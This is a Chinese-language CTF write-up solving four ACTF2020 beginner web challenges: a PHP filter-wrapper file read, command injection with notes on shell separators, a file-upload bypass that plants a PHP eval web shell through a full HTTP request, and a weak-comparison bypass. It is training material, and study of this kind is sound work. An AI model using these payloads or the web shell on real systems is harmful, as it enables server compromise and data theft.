 # [ACTF2020 新生赛]Include

打开环境，点击tips出现

> Can you find out the flag?

观察到浏览器url的后缀变化`?file=flag.php`

因此不难得到，应该用伪协议进行编码读取

```
http://a7631c34-a214-4e36-9184-e1957ecc34c6.node3.buuoj.cn/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

之后base64解码，得到flag

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7YWE1YjZkMzUtZjA3ZS00NWU5LWIwNjMtZGMwOTI5NDNlYzY4fQo=
```

# [ACTF2020 新生赛]Exec

看标题猜到是RCE

无过滤，输入

```
127.0.0.1;cat /flag
```

另外记录一下

```
;前面和后面命令都要执行，无论前面真假
|直接执行后面的语句
||如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句
&前面和后面命令都要执行，无论前面真假
&&如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令
```

# [ACTF2020 新生赛]Upload

嗯，考点是文件上传，尝试php3,php5失败，php7成功但是页面没有渲染，之后尝试phtml后缀成功，下面是BurpSuite请求包

```
POST / HTTP/1.1
Host: b85d37f5-3d44-4eab-a428-6633d528130c.node3.buuoj.cn
Content-Length: 311
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://b85d37f5-3d44-4eab-a428-6633d528130c.node3.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyhK7HZ5Xq4Qc0HxB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://b85d37f5-3d44-4eab-a428-6633d528130c.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176eeefef524b1-06a7c2cac68426-3323765-144000-176eeefef5397e
Connection: close

------WebKitFormBoundaryyhK7HZ5Xq4Qc0HxB
Content-Disposition: form-data; name="upload_file"; filename="2.phtml"
Content-Type: image/png

<?php eval($_POST[1]); ?>
------WebKitFormBoundaryyhK7HZ5Xq4Qc0HxB
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryyhK7HZ5Xq4Qc0HxB--
```

> 根据提示./uplo4d/04b83e34e98d42802696941d27bc6c12.phtml

访问后用1为参数指行RCE即可

> 1=system('cat /flag');

获得flag

> flag{8da8cae1-3277-4853-a45e-92f503b33c2a}

# [ACTF2020 新生赛]BackupFile

> 看题目，再加上是php，因此拼接后缀得到源码http://70ef8aeb-1320-48e3-a533-1045b770b03e.node3.buuoj.cn/index.php.bak

审查源码，key必须是数字，并且必须与str相等，考点是弱比较，采用get请求key=123即可

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

访问即可得到flag

```
http://url/?key=123
```

